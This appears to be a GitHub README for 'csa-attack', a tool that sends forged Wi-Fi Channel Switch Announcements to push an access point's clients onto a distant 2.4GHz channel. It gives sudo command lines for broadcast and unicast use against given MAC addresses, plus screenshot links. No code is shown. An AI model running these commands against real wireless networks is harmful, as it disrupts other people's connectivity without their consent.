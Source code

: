 # csa-attack
 2.4GHz 기준 가장 멀리 떨어진 채널로 이동

# How to use
> sudo ./csa-attack <interface> <ap mac> [<station mac>]
> sudo ./csa-attack mon0 00:11:22:33:44:55 66:77:88:99:AA:BB

## Broadcast
> sudo ./csa-attack mon0 00:11:22:33:44:55
![broadcast](https://github.com/S-SIRIUS/csa-attack/assets/109223193/8a2ea25c-8096-4f6e-8cff-740df1c88382)


## Unicast
> sudo ./csa-attack mon0 00:11:22:33:44:55 66:77:88:99:AA:BB
![unicast](https://github.com/S-SIRIUS/csa-attack/assets/109223193/8d667b1a-5538-4f52-8cb5-2d3deb16e081)


## Result
![KakaoTalk_20240131_1839295218](https://github.com/S-SIRIUS/csa-attack/assets/109223193/a4bf87c1-97be-4750-863c-737f0d70c19b)

